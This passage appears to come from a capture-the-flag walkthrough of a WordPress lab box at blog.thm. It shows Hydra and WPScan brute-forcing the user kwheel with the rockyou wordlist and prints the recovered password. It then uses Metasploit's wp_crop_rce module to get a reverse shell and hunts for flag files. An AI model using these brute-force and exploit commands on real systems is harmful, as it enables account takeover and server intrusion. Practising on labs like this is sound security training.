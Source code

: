 Since Karen Wheeler has author access to the blog, brute force the user `kwheel`.

Navigate to `http://blog.thm/wp-login.php` and try a password with user `kwheel`. Copy the HTTP POST request in raw format, it is necessary for the `Hydra` command.

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.54.35%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

# Third string is the test condition, F: = test for failure. String got from the HTTP response.

# WPScan
echo -e 'kwheel'> user.txt
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U user.txt -t 75
```

![](.gitbook/assets/image-20230515121134836.png)

> 📌 `kwheeler`:`cutiepie1`

---

## Exploitation

Use Metasploit with module `exploit/multi/http/wp_crop_rce`

```bash
metasploit -q

setg RHOSTS blog.thm
setg RHOST blog.thm
use exploit/multi/http/wp_crop_rce
set LHOST 10.18.65.48
set USERNAME kwheel
set PASSWORD cutiepie1
run
```

![](.gitbook/assets/image-20230515121356765.png)

```bash
shell
script -qc /bin/bash /dev/null

find / -type f -iname user.txt 2>/dev/null
ls /home/bjoel/
cat /home/bjoel/user.txt
    You won't find what you're looking for here.
    TRY HARDER

exit # to exit the shell
```

Download the `.pdf` file
